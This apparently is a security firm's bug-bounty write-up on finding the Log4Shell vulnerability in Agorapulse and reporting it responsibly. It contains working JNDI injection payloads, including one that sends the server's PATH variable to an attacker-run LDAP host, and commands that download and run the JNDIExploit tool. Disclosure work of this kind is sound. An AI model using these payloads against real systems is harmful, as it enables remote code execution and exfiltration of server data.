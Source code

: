 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. 


Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “[Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution). The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring and management. Focusing on social media platforms like facebook,linkedin and twitter, agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar. The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint or any request it was really hard to focus on one part of an application. So decided to submit payloads all over the web application and wait for any pingbacks, To do that We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in messege box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to indentify the vulnerable request to trigger the vulnerability.


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious coommands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to burp collaborator Client you will see a Pingback on it

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services. So, we decide to prove the impact by extacting the global PATH variable to prove the real impact of the vulnerability and we needed to setup and JNDI server for that, So we quickly setup an amazon ec2 and setup an JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. And Hence no sensitive , Confidential or any information related to their users were extracted.


## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a on the same day and rewarded our finding.

After their fix was implemented we , The team requested an re-check on the vulnerability and we tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  


## About us

Snapsec is a team of security experts specialized in providing pentesting and other security services to secure your online assets. We have a specialized testing methodology that ensures in-depth testing of your business logic and other latest vulnerabilities. 

 If you are looking for a team that values your security and ensures that you are fully secure against online security threats, feel free to get in touch with us #[support@snapsec.co](mailto:support@snapsec.co)
 
 
